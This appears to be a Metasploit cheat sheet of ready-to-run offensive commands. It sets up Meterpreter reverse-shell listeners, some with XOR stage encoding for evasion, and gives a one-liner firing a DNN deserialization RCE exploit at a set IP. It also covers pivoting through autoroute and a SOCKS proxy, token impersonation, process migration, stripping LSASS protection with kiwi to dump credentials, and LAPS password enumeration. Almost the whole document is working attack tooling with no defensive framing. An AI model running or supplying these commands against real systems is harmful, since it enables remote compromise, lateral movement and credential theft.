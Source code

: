 # msfconsole

% metasploit

## listener -  windows tcp meterpreter
```bash
msfconsole -x "use multi/handler ; set payload windows/meterpreter/reverse_tcp ;  set exitonsession false ;  set LHOST <interface> ;  set LPORT <port>; run -j"
```

## listener -  windows tcp 32bits staged
```bash
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port>; set payload windows/meterpreter/reverse_tcp; exploit"
```

## listener -  windows https 32bits staged
```bash
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/meterpreter/reverse_https; set EXITFUNC thread; exploit
```

## listener -  windows https 64bits staged
```bash
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter/reverse_https; exploit"
```

## listener -  https 64bits unstaged
```bash
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter_reverse_https; exploit"
```

## listener -  https 64bits stagged - encoded xor
others encoder : x64/zutto_dekiru
```bash
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set EnableStageEncoding true; set StageEncoder <encoder|x64/xor_dynamic>; exploit"
```

## listener -  linux tcp 64bits stagged - encoded xor
```bash
msfconsole -x "use exploits/multi/handler; set lhost <ip|tun0>; set lport <lport|443>; set payload windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; exploit"
```



## recon - local_exploit_suggester
```bash
use post/multi/recon/local_exploit_suggester
```

## oneliner
```bash
msfconsole -q -x 'setg LHOST=tun0;use windows/http/dnn_cookie_deserialization_rce;set LHOST 10.10.16.179; set RHOSTS 10.10.110.10; set RPORT 80;run'
```


## meterpreter - upgrade to 
```bash
sessions -u <session_id>
```

## show session list
#plateform/linux #target/remote #cat/ATTACK/CONNECT
```bash
sessions -l
```

## print route table
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
```
route print
```

## add pivot (autoroute)
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
example : 
use multi/manage/autoroute
set session 1
exploit
```
use multi/manage/autoroute
```

## add socks proxy (autoroute first)
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 

example : 
use multi/manage/autoroute
set session 1
exploit
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
exploit -j

```
use auxiliary/server/socks_proxy
```

## load incognito 
#plateform/linux #target/local #cat/PRIVESC  
```
load incognito
```

## incognito impersonate token
#plateform/linux #target/local #cat/PRIVESC  
```
impersonate_token <domain_fqdn>\\<user>
```
## create process
#plateform/linux #target/local #cat/UTILS 
```
execute -H -f <process|notepad>
```

## migrate with name
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
migrate -N <process_name|notepad.exe>
```

##  PPL remove
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
load kiwi
kiwi_cmd "!processprotect /process:lsass.exe /remove"
creds_all
```

## enum LAPS
#plateform/linux #target/local #cat/ATTACK
```
use post/windows/gather/credentials/enum_laps
```

